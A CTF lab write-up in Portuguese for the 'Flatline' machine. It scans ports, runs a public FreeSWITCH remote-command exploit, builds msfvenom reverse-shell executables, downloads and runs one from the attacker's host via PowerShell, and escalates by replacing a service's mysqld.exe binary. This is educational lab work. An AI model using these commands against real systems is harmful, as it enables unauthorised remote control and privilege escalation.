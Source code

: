 # Flatline

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.93.165
```
![image](https://github.com/lufffe/Writeups/assets/90646635/32546ca4-5f96-475d-a76d-7f652d72ac48)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 3389,8021 10.10.93.165 -Pn
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6c238c0d-5f3c-49ad-a1d3-6c51df0f872a)

* ### Exploit para o FreeSWITCH.
![image](https://github.com/lufffe/Writeups/assets/90646635/6037eeca-b96d-46c8-806b-34ccfbcb4337)

* ### Rodando exploit.
```bash
python 47799.py 10.10.93.165 whoami
```
![image](https://github.com/lufffe/Writeups/assets/90646635/306d2976-ee7f-456d-a951-334275bea187)

* ### Rodando exploit.
```bash
python 47799.py 10.10.93.165 dir
```

* ### Caminho para ler a flag de Usuário.
```bash
python 47799.py 10.10.93.165 'type c:\\users\\Nekrotic\\Desktop\\user.txt'
```

* ### Escalando previlégio do usuário, criando um arquivo executavel com uma reverse shell nele.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4455 -f exe > rv.exe
```

* ### Transferindo o arquivo para a maquina e executando ela, basta apenas colocar o netcat para escutar a porta escolhida.
```bash
python3 47799.py 10.10.93.165 "powershell.exe Invoke-WebRequest -Uri http://IP:8000/rv.exe -OutFile ./rv.exe && .\rv.exe"
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f27f3d02-2d70-478d-8986-832e1ce2f339)

* ### Depois de gastar um tempo procurando, identifiquei uma pasta diferente no disco C:.
![image](https://github.com/lufffe/Writeups/assets/90646635/d002a969-af5c-4aab-8d2e-0bd51873a354)


* ### Gerei outro arquivo com o msfvenom com o nome de mysqld.exe, só que em outra porta.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4445 -f exe > mysqld.exe
```

* ### E então parei o serviço, troquei os arquivos e startei o serviço novamente e conseguir a shell de administrador.

* c:\\Users\\Nekrotic\\Desktop>copy rv.exe c:\\projects\\openclinic\\mariadb
* c:\\projects\\openclinic\\mariadb>move rv.exe mysqld.exe
* c:\\projects\\openclinic\\mariadb\\bin>net stop OpenClinicMySQL
* c:\\projects\\openclinic\\mariadb\\bin>del mysqld.exe
* c:\\projects\\openclinic\\mariadb>move mysqld.exe bin/
* c:\\projects\\openclinic\\mariadb\\bin>net start OpenClinicMySQL

![image](https://github.com/lufffe/Writeups/assets/90646635/e2b3c0de-f3ed-42a0-b3b0-d4693ab64b7b)



* ### E aqui ( c:\Users\Nekrotic\Desktop>) encontramos a flag root, e conseguimos ler agora.
```bash
type root.txt
```

